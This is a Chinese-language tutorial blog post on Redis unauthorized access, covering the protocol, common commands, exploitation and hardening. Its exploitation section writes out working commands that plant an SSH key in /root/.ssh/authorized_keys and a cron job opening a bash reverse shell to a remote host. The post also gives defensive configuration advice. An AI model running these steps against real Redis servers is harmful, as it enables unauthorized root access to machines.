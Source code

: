 ```yaml
---
title: Redis 未授权漏洞简介
date: 2018-07-25 00:00:00
tags:
  - Redis
  - CTF
---
```


本文仅供学习交流使用，切勿用于非法用途

## redis 概述

Redis 是一个开源（BSD 许可）的，内存中的数据结构存储系统，它可以用作数据库、缓存和消息中间件。

redis 协议使用符号前缀标识数据类型

> In RESP, the type of some data depends on the first byte:
>
> - For Simple Strings the first byte of the reply is "> +"
> - For Errors the first byte of the reply is "-"
> - For Integers the first byte of the reply is ":"
> - For Bulk Strings the first byte of the reply is "\$"
> - For Arrays the first byte of the reply is "\*"

## 常用命令

- `GET key`获取 key 值
- `SET key value [expiration EX seconds|PX milliseconds] [NX|XX]` 将键 key 设定为指定的字符串值，覆盖旧值和过期时间
  - EX seconds – 设置键 key 的过期时间/秒
  - PX milliseconds – 设置键 key 的过期时间/毫秒
  - NX – 只有键 key 不存在的时候才会设置 key 的值
  - XX – 只有键 key 存在的时候才会设置 key 的值
- `DEL key [key ...]`删除指定 key 的值，返回删除的 key 的数量
- `KEYS pattern`查找所有符合给定模式 pattern（正则表达式）的 key
- `INFO`返回关于 Redis 服务器的各种信息和统计数值
- `CONFIG GET parameter`读取 redis 服务器的配置文件参数
- `CONFIG SET parameter`设置 redis 服务器的配置文件参数
- `SAVE`将数据保存到磁盘
- `FLUSHDB`删除当前数据库里面的所有数据
- `AUTH password`密码认证

## 未授权利用

- 利用前提：目标机器 redis 端口暴露，未设置密码（或仅设置弱密码）且 redis 运行在高权限用户
- 利用原理：redis 提供的 config 命令可以修改数据文件的位置，通过将自己的公钥写入 redis，然后修改数据文件保存位置，覆盖`~/.ssh/authorized_keys`可以获得服务器访问权限
- 利用过程

```bash
# 连接 redis 默认端口
nc 192.168.1.1 6379

# 尝试查看 redis 信息 提示未认证
info
-NOAUTH Authentication required.

# 认证
auth ${PASSWORD}
+OK

# 查看当前目录
config get dir
*2
$3
dir
$19
/var/lib/redis/6379

# 查看数据文件名
config get dbfilename
*2
$10
dbfilename
$8
dump.rdb

# 设置 x 的值为公钥
set x "\n\n\nssh-rsa AAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\n\n"
+OK

# 修改目录为 /root/.ssh
config set dir /root/.ssh/
+OK

# 修改数据文件为 authorized_keys
config set dbfilename authorized_keys
+OK

# 保存数据
save
+OK

# 删除 x 的值
del x
:1

# 关闭连接
quit
+OK
```

在 crontab 里写入反弹 shell 同样能够获取目标机器权限

```bash
# 在 crontab 里写入反弹 shell
set x "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.1.1/8888 0>&1\n\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

之后在本机监听端口即可

```
# 本地监听
nc -lvnp 8888

# 查看crontab任务
crontab -l
```

## 防护方式

- 使用强密码`requirepass XXXXXXXXX`
- 关闭外网访问`bind 127.0.0.1`
- 修改默认的端口，一定程度上避免被扫描
- 使用低权限用户启动 redis
- 在 redis.conf 禁用高危命令

```
rename-command FLUSHALL ""
rename-command FLUSHDB ""
rename-command CONFIG ""
rename-command EVAL ""
```

## 参考文献

- [redis](https://redis.io)
- [Redis 未授权访问配合 SSH key 文件利用分析](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
